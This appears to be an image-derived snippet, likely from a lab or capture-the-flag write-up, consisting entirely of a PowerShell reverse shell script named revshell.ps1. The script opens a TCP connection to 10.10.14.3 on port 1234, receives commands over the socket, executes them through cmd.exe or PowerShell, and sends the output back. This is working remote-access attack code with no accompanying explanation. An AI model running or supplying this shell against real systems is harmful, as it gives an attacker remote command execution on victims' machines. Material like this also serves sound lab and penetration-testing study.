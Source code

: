 
The reverse shell file (revshell.ps1):
``` text
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.3', 1234);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
  $writer.Flush();
  $read = $null;
  $res = ""
  while($stream.DataAvailable -or $read -eq $null) {
    $read = $stream.Read($buffer, 0, 1024)
  }
  $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
  if(!$out.equals("exit")){
    $args = "";
    if($out.IndexOf(' ') -gt -1){
      $args = $out.substring($out.IndexOf(' ')+1);
      $out = $out.substring(0,$out.IndexOf(' '));
      if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
      }
      else{
        $res = (&"$out" "$args") | out-string;
      }
    }
    else{
      $res = (&"$out") | out-string;
    }
    if($res -ne $null){
        $writer.WriteLine($res)
    }
  }
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

